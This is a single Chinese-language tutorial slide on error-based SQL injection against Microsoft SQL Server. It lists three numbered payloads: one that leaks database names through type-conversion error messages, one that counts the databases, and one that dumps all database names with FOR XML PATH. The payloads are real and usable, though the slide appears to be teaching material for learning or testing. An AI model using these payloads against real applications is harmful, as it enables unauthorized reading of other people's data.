

MSSql报错注入
MSSql报错注入的过程
8、获取所有数据库名：
Payload ：and (select name from master.sys.databases where database_id=1)>0
说明：在将 nvarchar 值 'master' 转换成数据类型 int 时失败

9、获取数据库的个数
Payload：and 1=(select quotename(count(name)) from master.sys.databases)

10、一次性获取所有数据库：
payload： and 1=(select quotename(name) from master.sys.databases FOR XML PATH(''))--